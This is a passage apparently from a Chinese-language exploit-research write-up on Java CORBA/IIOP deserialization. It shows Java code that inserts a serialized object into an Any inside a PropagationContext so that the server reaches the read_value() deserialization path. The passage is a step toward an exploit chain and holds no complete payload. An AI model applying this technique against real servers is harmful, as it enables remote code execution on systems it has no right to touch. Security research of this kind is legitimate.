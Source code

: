 ![](2023-02-14-10-50-24.png)  
所以我们只需要在Any对象中调用`insert_value`方法就可以设置complexValue属性为一个序列化的对象,就可以使在解析any对象时调用var0对象的read_value方法,也就是可以进入到`org.omg.CORBA_2_3.portable.InputStream#read_value()`方法中了.  
修改代码,加入调用`insert_value()`加入一个HashMap,重新构造`propagationContext`.  
```java
        HashMap<Object, Object> hashMap = new HashMap<>();
        CDROutputStream outputStream = ORB.createCDROutputStream(orb);
        outputStream.putEndian();
        Any any = orb.create_any();
        any.insert_Value(hashMap);//调用insert_Value插入一个序列化对象.
        PropagationContext propagationContext = new PropagationContext(0,
                new TransIdentity(null,null, new otid_t(0,0,new byte[0])),
                new TransIdentity[0],
                any);
        PropagationContextHelper.write(outputStream, propagationContext);
```  
这样便会调用到`org.omg.CORBA_2_3.portable.InputStream`的`read_value()`方法,此时var1的值为29.  